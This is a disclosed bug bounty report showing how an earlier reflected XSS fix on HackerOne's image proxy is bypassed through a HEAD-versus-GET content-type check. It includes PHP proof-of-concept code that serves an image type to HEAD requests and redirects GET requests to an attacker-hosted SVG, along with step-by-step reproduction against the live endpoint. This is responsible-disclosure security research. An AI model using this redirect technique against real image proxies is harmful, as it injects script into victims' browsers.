 # Bypass of #2035332 RXSS at image.hackerone.live via the `url` parameter

## Report Details
- **Report ID**: 2106708
- **URL**: https://hackerone.com/reports/2106708
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-08-11T17:18:01.849Z
- **Disclosed**: 2023-08-22T13:59:27.294Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Heyy there,
I was able to bypass the fix for the reflected xss reported in #2035332

After the bug patch, the server now validates the `Content-Type` of the requested resource. The check is done by making a `HEAD` based request to the resource to get the `Content-Type` then if it corresponds to a valid image mime type a second request is made this time `GET` based to retrieve the page resource content.

Due to the HEAD based check it's very easy to bypass this check, just need to modify the server to response with a different `Content-Type` in case of GET and HEAD request

Example code:

```php
<?php

if ($_SERVER['REQUEST_METHOD'] == 'HEAD') {
    header("Content-Type: image/png");
    exit;
}

header("Location: https://sudistark.github.io/evilsvgfile.svg");

?>
```

TOCTOU ( time-of-check to time-of-use) : At the time of check the application relies  upon HEAD request but at the time of use relies upon GET request this allows the attacker to bypass the protection.


This xss works only in the Safari browser , I was able to find the problem why it doesn't works in other browser. It had do something with the `Accept` header.

Other browsers send the Accept header with these values: 

```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
```
The server applies sanitization if the Accept header is similar to above, in case of Safari it does something wierd (I don;t actually have a mac so not sure what's eactly it's sending in the Accept header)
But the server doesn;t does any sanitization if the header value is like this

```
Accept: */*
```

---------------------------------


**Steps to reproduce:**

1.Save this code in your webserver xss.php

```php
<?php

if ($_SERVER['REQUEST_METHOD'] == 'HEAD') {
    header("Content-Type: image/png");
    exit;
}

header("Location: https://sudistark.github.io/evilsvgfile.svg");

?>
```
2.Then input your host in the url parameter: https://image.hackerone.live:8443/resource/md/get/url?url=http://yourhost/ss.php
3.Open this url in Safari browser and you should get the xss
{F2593672}


---------------------------------

## Impact

As the server is behind cloudflare I can;t directly make a request to the AWS metadata endpoint, but for the least I can confirm the xss with the provided poc

Thankyou
Regards
Sudhanshu

## Attachments
- image.png

